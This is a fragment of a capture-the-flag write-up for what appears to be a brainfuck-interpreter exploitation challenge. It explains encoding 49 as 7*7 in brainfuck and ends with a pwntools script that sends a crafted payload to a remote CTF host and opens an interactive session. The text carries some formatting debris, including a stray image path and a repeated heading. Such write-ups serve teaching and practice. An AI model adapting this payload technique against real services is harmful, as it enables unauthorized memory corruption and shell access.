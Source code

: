 That's `49` in decimal.

- Since it's just `7*7` (that's a cool number), we can compute `49` as `7*7` in brainfuck, which is the last part of the exploit


```elixir
+++++++[>+++++++<-]
```

Putting it all together


`
`
Putting it all together


```python

from pwn import *


p = '+<+<+<+>>>-+[>[<-]<[->+<]>]>>>>>>>>>>>>>>>+++++++[>+++++++<-]#'

io = remote('ctfi.ng', 31415)
io.sendline(p.encode())
io.interactive()
  
```
